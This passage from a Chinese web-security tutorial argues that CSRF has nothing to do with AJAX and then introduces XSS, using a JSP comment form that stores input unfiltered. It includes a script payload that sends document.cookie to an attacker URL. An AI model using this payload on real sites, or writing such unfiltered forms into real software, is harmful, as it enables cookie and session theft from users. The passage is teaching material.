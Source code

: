 <span class="hljs-number">3.</span> AJAX请求无法携带跨域cookie
（如果强行开启withCredentials，必须服务端配合认证，无法用作攻击）</code></pre>
<p>嗯哼...看到这，基本就可以认为CSRF与AJAX请求无缘了。。。</p>
<p>譬如假设上图中第<code>4</code>部分的请求由AJAX发起，假设网站A已经允许了<code>Access-Control-Allow-Origin: *</code>，由于网站B与网站A是不同域名，所以存在跨域，根据同源策略，请求时根本就无法携带cookie，故而无法通过身份认证，攻击失败。。。<br>就算强行开启withCredentials，携带跨域cookie，但是由于服务端并不会单独配置网站B的跨域cookie（需配置<code>Access-Control-Allow-Credentials: true</code>，而且这时候不允许设置<code>Allow-Origin: *</code>），所以肯定认证失败</p>
<p>可以看到，就算<code>Access-Control-Allow-Origin: *</code>允许所有来源的AJAX请求，跨域的cookie默认情况下仍然是无法携带的，无法CSRF</p>
<p>所以说，结论是：<strong>CSRF与AJAX无关</strong></p>
<h3 id="articleHeader8">XSS简介</h3>
<p>既然CSRF与AJAX关系不大，那么XSS应该会与AJAX有很大关系吧？（要不然为什么一直说AJAX请求不安全，对吧。）。那么请继续看下去（本文中只限JS范畴）</p>
<p>XSS（cross-site scripting），看起来简写应该是css更合适。。。但是为了和层叠式样式表区分，就用XSS简写表示</p>
<p>XSS的特征也可以概括为：<strong>跨域脚本注入，攻击者通过某种方式将恶意代码注入到网页上，然后其他用户观看到被注入的页面内容后会受到特定攻击</strong></p>
<p>相比CSRF，XSS囊括的内容更多，而且往往是多种攻击形式组合而成，这里以前文中介绍的几种为例：</p>
<p><span class="img-wrap"><img data-src="/img/remote/1460000012693784?w=371&amp;h=430" src="https://static.alili.tech/img/remote/1460000012693784?w=371&amp;h=430" alt="" title="" style="cursor: pointer;"></span></p>
<p><strong>1.cookie劫持</strong></p>
<p>同样，页面中有一个评论输入，输入后会，因为后台的漏洞，没有过滤特殊字符，会直接明文保存到数据库中，然后展示到网页时直接展示明文数据，那么如下</p>
<div class="widget-codetool" style="display:none;">
      <div class="widget-codetool--inner">
      <span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="全选"></span>
      <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="<%@ page language=&quot;java&quot; contentType=&quot;text/html; charset=UTF-8&quot; pageEncoding=&quot;UTF-8&quot;%>
<form action=&quot;saveComment.jsp&quot; method=&quot;post&quot;> 
     请输入评论内容：<BR> 
     <input name=&quot;content&quot; type=&quot;text&quot;> 
     <input type=&quot;submit&quot; value=&quot;确认&quot;>
</form> " title="" data-original-title="复制"></span>
      <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="放进笔记"></span>
      </div>
      </div><pre class="xml hljs"><code class="html"><span class="hljs-tag">&lt;<span class="hljs-name">%@</span> <span class="hljs-attr">page</span> <span class="hljs-attr">language</span>=<span class="hljs-string">"java"</span> <span class="hljs-attr">contentType</span>=<span class="hljs-string">"text/html; charset=UTF-8"</span> <span class="hljs-attr">pageEncoding</span>=<span class="hljs-string">"UTF-8"</span>%&gt;</span>
<span class="hljs-tag">&lt;<span class="hljs-name">form</span> <span class="hljs-attr">action</span>=<span class="hljs-string">"saveComment.jsp"</span> <span class="hljs-attr">method</span>=<span class="hljs-string">"post"</span>&gt;</span> 
     请输入评论内容：<span class="hljs-tag">&lt;<span class="hljs-name">BR</span>&gt;</span> 
     <span class="hljs-tag">&lt;<span class="hljs-name">input</span> <span class="hljs-attr">name</span>=<span class="hljs-string">"content"</span> <span class="hljs-attr">type</span>=<span class="hljs-string">"text"</span>&gt;</span> 
     <span class="hljs-tag">&lt;<span class="hljs-name">input</span> <span class="hljs-attr">type</span>=<span class="hljs-string">"submit"</span> <span class="hljs-attr">value</span>=<span class="hljs-string">"确认"</span>&gt;</span>
<span class="hljs-tag">&lt;/<span class="hljs-name">form</span>&gt;</span> </code></pre>
<p>然后攻击者分析后，输入</p>
<div class="widget-codetool" style="display:none;">
      <div class="widget-codetool--inner">
      <span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="全选"></span>
      <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="<script>window.open(&quot;http://www.attackpage.com/record?secret=&quot; + document.cookie)</script>" title="" data-original-title="复制"></span>
      <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="放进笔记"></span>
      </div>